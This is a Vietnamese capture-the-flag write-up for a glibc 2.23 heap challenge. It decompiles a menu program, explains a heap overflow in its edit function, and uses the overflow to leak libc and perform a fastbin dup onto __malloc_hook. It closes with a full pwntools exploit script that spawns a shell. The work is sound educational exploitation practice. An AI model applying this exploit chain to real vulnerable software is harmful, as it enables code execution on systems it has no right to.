### Thông tin:

```c
└─$ ls       
libc.2.23.so  pwn4_ul 
```

```c
└─$ file pwn4_ul_patched 
pwn4_ul_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=5b72263ca214a77e25ca46bec6ac2ac2c91ce268, not stripped
```
```c                                                                                          
└─$ checksec --file=pwn4_ul_patched 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols   FORTIFY  Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   90 Symbols  No     0               2               pwn4_ul_patched                                            
```

___ 
Code:

`main()`:
```c
void main(void)
{
  undefined4 option;
  
  initState();
  puts("Ez heap challange !");
  do {
    menu();
    option = readInt();
    switch(option) {
    default:
      puts("no option");
      break;
    case 1:
      createHeap();
      break;
    case 2:
      showHeap();
      break;
    case 3:
      editHeap();
      break;
    case 4:
      deleteHeap();
      break;
    case 5:
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```
`createHeap()`:
```c
undefined8 createHeap(void)
{
  int idx;
  uint size;
  void *ptr;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    if (*(long *)(store + (long)idx * 8) == 0) {
      printf("Input size:");
      size = readInt();
      if (0x1000 < size) {
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      ptr = calloc((ulong)size,1);
      *(void **)(store + (long)idx * 8) = ptr;
      *(uint *)(storeSize + (long)idx * 4) = size;
      printf("Input data:");
      readStr(*(undefined8 *)(store + (long)idx * 8),size);
      puts("Done");
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
* `calloc((ulong)size,1);` cấp phát động chunk trên heap, đồng thời khởi tạo giá trị bên trong thành 0 
* `store`: lưu lại địa chỉ các chunk
* `storeSize`: lưu lại kích thước 

`showHeap()`:
```c
undefined8 showHeap(void)
{
  int idx;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    if (*(long *)(store + (long)idx * 8) != 0) {
      printf("Data = %s\n",*(undefined8 *)(store + (long)idx * 8));
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
* dùng để leak libc

`editHeap()`:
```c
undefined8 editHeap(void)
{
  int idx;
  uint newsize;
  int yes;
  long in_FS_OFFSET;
  char input [24];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  printf("Input index:");
  idx = readInt();
  if ((9 < idx) || (idx < 0)) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (*(long *)(store + (long)idx * 8) != 0) {
    printf("Input newsize:");
    newsize = readInt();
    if (*(uint *)(storeSize + (long)idx * 4) < newsize) {
      *(uint *)(storeSize + (long)idx * 4) = newsize;
    }
    puts("Do you want to change data (y/n)?");
    readStr(input,10);
    yes = strcmp(input,"y");
    if (yes == 0) {
      printf("Input data:");
      readStr(*(undefined8 *)(store + (long)idx * 8),*(undefined4 *)(storeSize + (long)idx * 4));
    }
    puts("Done ");
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
* Lưu ý:
	```c
	    printf("Input newsize:");
	    newsize = readInt();
	    if (*(uint *)(storeSize + (long)idx * 4) < newsize) {
	      *(uint *)(storeSize + (long)idx * 4) = newsize;
	    }
	```
* thay đổi size của chunk nếu edit với newsize lớn hơn
* `readStr()` với size mới trong `&storeSize` gây heap overflow sang chunk kề cận

```c
ulong readStr(void *param_1,uint param_2)
{
  int iVar1;
  ulong uVar2;
  
  uVar2 = read(0,param_1,(ulong)param_2);
  iVar1 = (int)uVar2;
  if (iVar1 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (*(char *)((long)param_1 + (long)iVar1 + -1) == '\n') {
    *(undefined1 *)((long)param_1 + (long)iVar1 + -1) = 0;
  }
  return uVar2 & 0xffffffff;
}
```
`deleteHeap()`:
```c
undefined8 deleteHeap(void)
{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if (*(long *)(store + (long)idx * 8) != 0) {
      free(*(void **)(store + (long)idx * 8));
      *(undefined8 *)(store + (long)idx * 8) = 0;
      puts("Done ");
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
* `free()` các chunk được cấp phát vào bin tương ứng
* địa chỉ freed chunk trong `&store` tại `idx` tương ứng được set về NULL
 
___
### Khai thác:
Lỗ hổng chính: heap overflow

**Leak libc**:
* Tạo các chunks trước:

  image1
  

  Chức năng các chunk:
  * chunk 1: để overflow sang chunk 2
  * chunk 2: kích thước to hơn fastbin, để khi free() được đưa vào unsortedbin và có fd/bk là địa chỉ libc
  * chunk 3: ngăn cách
  * chunk 4: chunk dùng để khai thác lỗ hổng fastbin dup sau khi có được libc
  * chunk 5: đẻ tránh gộp với bigchunk  

* `deleteHeap()` free chunk thứ 2 vào unsortedbin. Giớ freed chunk 2 chứa địa chỉ libc bên trong:

  image2
  

* Để có thể leak libc này, ta sử dụng bug heap overflow qua hàm `editHeap()`

  Chọn option `editHeap()` từ chunk 1, đặt newsize > size hiện tại. Lúc này cho phép heap overflow đến chunk thứ 2

  Ta sẽ overwrite sao cho đủ chạm đến giá trị địa chỉ libc của fd

  image3
  

  Để leak ra dùng option `showHeap()`, mà trong hàm có :
  ```c
	printf("Data = %s\n",*(undefined8 *)(store + (long)idx * 8));
  ```
  vì hàm `print()` sẽ in ra cho đến khi gặp được byte NULL (`\x00`), mà ta đã nối phần data trong chunkdata của **chunk 1** đến địa chỉ libc của **chunk 2**

  nên hoàn toàn có thể leak ra được libc

* Chọn option `showHeap()` từ **chunk 1**, ta leak được:

  image4
  

  ta tính ra địa chỉ libc base:
  ```c
	leak_libc: 0x7faebad9bb78
	libc_base: 0x7faebaa00000
  ```
  và từ đó tính các gadgets và địa chỉ liên quan:

  image4.1
  

**Giờ đến bước khai thác bug `fastbin dup`:**

* Có sẵn chunk 4 tạo trước trên heap, với kích thước đủ để vào fastbin:

  image5
  

* Với `deleteHeap()` đưa chunk 4 vào fastbin:

  image6
  

* Để có `fastbin dup`, ta phải overwrite vào fd của freed chunk trong fastbin

  Và ta lại sử dụng bug **heap overflow** để thực hiện điều đó

  chọn `editHeap()` trên **chunk 3** ngay trước **freed chunk 4** và overwrite vào freed chunk. Vì overflow tràn từ **chunk 3** sang **chunk 4**, nên ta phải bảo đảm phần metadata (chunksize) của **chunk 4** phải giữ nguyên:

  image7
  

  Khi này trong fastbin xuất hiện fd mới - là địa chỉ trên `__malloc_hook` được căn chỉnh để bypass cái check của fastbin đến header của chunk:

  image7.1
  

* Để có thể viết giá trị vào `__malloc_hook`, ta phải gọi `createHeap()` để được trả về địa chỉ của vùng nhớ đó và viết data vào vùng đấy

  * `createHeap()` đầu tiên tái sử dụng freed chunk có sẵn trên heap
 
    image8
    

	image8.1
	

  * `createHeap()` lần tiếp theo sẽ trả về địa chỉ trên `__malloc_hook` sau khi check phần metadata là hợp lý.

	Ta căn chỉnh lại payload và nhét `one_gadget` đúng chỗ trên `__malloc_hook`

	Để khi mỗi lần gọi tới `malloc()`/`calloc()` sẽ thực thi `__malloc_hook` - chứa one_gadget của mình

	image9
	

Cuối cùng là gọi đến hàm `malloc()`/`calloc()` để spawn shell:

image10

___

`script.py`:

````python
from pwn import *

libc = ELF("./libc.2.23.so", checksec=False)

context.binary = exe = ELF("./pwn4_ul_patched", checksec=False)
context.log_level = "debug"

def GDB():
	gdb.attach(p, gdbscript='''
		handle SIGALRM ignore
		br createHeap
		br *createHeap+144

		br deleteHeap
		br *deleteHeap+99

		br showHeap
		br showHeap+102

		br editHeap
		br *editHeap+266

		# heap check:
		# heap [-v]
		# vis
		# vmmap
		# x/4gx 0x006020e0
		''')

p = process(exe.path)
# GDB()

def createHeap(idx, size, data):
	p.sendlineafter(b">", b'1')
	p.sendlineafter(b"Index:", idx)
	p.sendlineafter(b"size:", size)
	p.sendlineafter(b"data:", data)

def showHeap(idx):
	p.sendlineafter(b">", b'2')
	p.sendlineafter(b"Index:", idx)	

def editHeap(idx, size, opt, data):
	p.sendlineafter(b">", b'3')
	p.sendlineafter(b"index:", idx)
	p.sendlineafter(b"newsize:", size)
	p.sendlineafter(b"?", opt)
	p.sendafter(b"data:", data)

def deleteHeap(idx):
	p.sendlineafter(b">", b'4')
	p.sendlineafter(b"index:", idx)	

# createHeap(b'0', b'1040', b'0' * 8)
createHeap(b'0', b'16', b'A' * 8)
createHeap(b'1', b'1040', b'B' * 8)
createHeap(b'2', b'16', b'C' * 8)
createHeap(b'3', b'96', b'D' * 8)
createHeap(b'4', b'16', b'E' * 8)

deleteHeap(b'1')
payload = b'A' * 24 + b'A'*8 
editHeap(b'0', b'64', b'y', payload)
showHeap(b'0')

leak_libc = p.recvuntil(b'\n')
leak_libc = leak_libc[-7:-1]
leak_libc = u64(leak_libc.ljust(8, b"\x00"))
print(f"leak_libc: {hex(leak_libc)}")

libc.address = leak_libc - 0x39bb78

print(f"libc_base: {hex(libc.address)}")

realloc = libc.sym['realloc']
fake_chunk = libc.sym['__malloc_hook'] - 0x23
one_gadget = libc.address + 0xd5bf7

GDB()
# delete chunk 3
deleteHeap(b'3')

print(f"fake_chunk: {hex(fake_chunk)}")
print(f"realloc: {hex(realloc)}")
print(f"one_gadget: {hex(one_gadget)}")
payload = b'A' * 24 + p64(0x71) + p64(fake_chunk)
editHeap(b'2', b'64', b'y', payload)

createHeap(b'5', b'96', b'F' * 8)

payload = b'A' * 11 + p64(one_gadget) + p64(realloc + 14)
createHeap(b'6', b'96', payload)

p.sendlineafter(b">", b'1')
p.sendlineafter(b"Index:", b'7')
# p.sendlineafter(b"size:", b'10')
# p.sendlineafter(b"data:", b'AAA')

p.interactive()

````
